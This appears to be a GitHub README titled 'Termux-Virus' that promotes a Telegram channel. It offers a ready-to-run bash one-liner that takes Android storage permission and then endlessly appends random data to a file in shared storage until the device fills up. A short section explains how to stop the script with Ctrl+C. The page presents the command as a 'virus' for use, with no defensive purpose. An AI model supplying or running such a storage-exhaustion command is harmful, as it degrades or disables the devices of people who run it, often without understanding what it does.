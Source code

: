 # Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

👨‍💻 **Virus Command 👇👇👇** 


```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.


## 🛑 HOW TO STOP IT 🛑


You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.
